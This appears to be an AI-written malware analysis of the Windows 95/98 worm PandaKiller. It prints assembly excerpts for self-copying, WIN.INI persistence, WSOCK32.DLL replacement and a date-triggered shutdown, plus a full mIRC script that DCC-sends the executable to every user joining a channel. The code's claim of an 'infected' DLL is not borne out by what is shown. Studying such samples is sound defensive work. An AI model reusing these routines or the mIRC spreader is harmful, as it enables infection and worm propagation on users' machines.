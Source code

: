 
### **Analyzing the W95/98.PandaKiller Malware: A Technical Breakdown**

#### **Introduction**

PandaKiller is a Windows 95/98 malware that spreads by self-replicating and modifying system files to ensure persistence. It uses registry manipulation, system file alterations, and a scripting technique to distribute itself via mIRC. In this article, we will analyze the malware's functionality using its assembly code.

----------

### **1. Self-Replication in the Windows Directory**

The malware copies itself to `%windir%\WinExec.exe`, ensuring persistence.

```assembly
push 00000000h
call GetModuleHandleA
push 260
push offset szOrig
push eax
call GetModuleFileNameA  ; Retrieve current executable path

push 260
push offset szCopie
call GetWindowsDirectoryA  ; Get Windows directory

push offset Copie
push offset szCopie
call lstrcat  ; Append "\WinExec.exe" to Windows directory path

push 00000000h
push offset szCopie
push offset szOrig
call CopyFileA  ; Copy the malware to %windir%\WinExec.exe
```

### **2. Modifying WIN.INI for Persistence**

Instead of modifying the registry, PandaKiller modifies `WIN.INI` to execute at startup.

```assembly
push 260
push offset szWin2
call GetWindowsDirectoryA

push offset Winini
push offset szWin2
call lstrcat  ; Append \WIN.INI path

push offset szWin2
push offset szCopie
push offset run
push offset windows
call WritePrivateProfileStringA  ; Write "run=WinExec.exe" under [windows]
```

This method ensures execution at each system startup without altering the registry, which is more detectable.

### **3. System File Modification (WSOCK32.DLL Hijack)**

The malware modifies the `WSOCK32.DLL` file, which handles network communications.

```assembly
push 260
push offset szWsk1
call GetSystemDirectoryA  ; Get system directory path

push 260
push offset szWsk2
call GetSystemDirectoryA

push offset Wsk1
push offset szWsk1
call lstrcat  ; Append "WSOCK32.DLL"

push offset Wsk2
push offset szWsk2
call lstrcat  ; Append "WSOCK32.TPK"

push 00000000h
push offset szWsk2
push offset szWsk1
call CopyFileA  ; Copy WSOCK32.DLL to WSOCK32.TPK
```

To replace the original `WSOCK32.DLL`, the malware modifies `WININIT.INI`:

```assembly
push 260
push offset szWin
call GetWindowsDirectoryA

push offset Wininit
push offset szWin
call lstrcat  ; Construct full path to WININIT.INI

push offset szWin
push offset szWsk1
push offset nul
push offset rename
call WritePrivateProfileStringA  ; Rename original DLL to NULL

push offset szWin
push offset szWsk2
push offset szWsk1
push offset rename
call WritePrivateProfileStringA  ; Replace with infected WSOCK32.TPK
```

### **4. Spreading via mIRC Scripting**

PandaKiller spreads via mIRC by modifying its script files to send itself to users in chat rooms.

```assembly
push 00000000h
push 00000080h
push 00000002h
push 00000000h
push 00000001h
push 40000000h
push offset ini
call CreateFileA  ; Create C:\script.tpk

push 00h
push offset octets
push initaille
push offset inid
push [fh]
call WriteFile  ; Write mIRC script

push [fh]
call CloseHandle
```

The script contents:

```ini
n0=on 1:start:{
n1=.remote on
n2=.ctcps on
n3=.events on
n4=}
n5=on 1:join:#:{
n6= if ( $nick == $me ) { halt } | .dcc send $nick C:\Windows\WinExec.exe
n7=}
```

The malware copies this script into common mIRC installation folders:

```assembly
push 00000000h
push offset script1
push offset ini
call CopyFileA  ; Copy to C:\mirc\script.ini

push 00000000h
push offset script2
push offset ini
call CopyFileA  ; Copy to C:\mirc32\script.ini

push 00000000h
push offset script3
push offset ini
call CopyFileA  ; Copy to C:\program files\mirc\script.ini

push 00000000h
push offset script4
push offset ini
call CopyFileA  ; Copy to C:\program files\mirc32\script.ini

push 00h
push offset ini
call DeleteFileA  ; Delete original script
```

### **5. Payload: Mouse Inversion and Fake Error Message**

The malware causes annoyance by reversing the mouse buttons:

```assembly
push 01h
call SwapMouseButton  ; Swap left and right mouse buttons
```

It also checks the system year and, if 2001, shuts down the computer:

```assembly
push offset SystemTime
call GetSystemTime

cmp  [SystemTime.wYear],7D1h  ; Check if year is 2001
jne  ALERT

push 01h
call ExitWindowsEx  ; Shutdown system
```

If not, it displays a fake Windows error message:

```assembly
push 10h
push offset TITRE
push offset TEXTE
push 0
call MessageBoxA  ; Show "Windows NT required!" message
```

### **Conclusion**

PandaKiller showcases several common malware techniques:

-   **Self-replication** into `WinExec.exe`
    
-   **WIN.INI modification** for stealthy persistence
    
-   **System DLL hijacking** for network interception
    
-   **mIRC script modification** for spreading
    
-   **Mouse inversion and fake error messages** for user disruption
    

By understanding these behaviors, analysts can detect and mitigate similar threats effectively. Defensive measures include monitoring file integrity, restricting script execution, and using up-to-date antivirus solutions.

----------

Would you like additional sections on **detection techniques** or **mitigation strategies**? 🚀
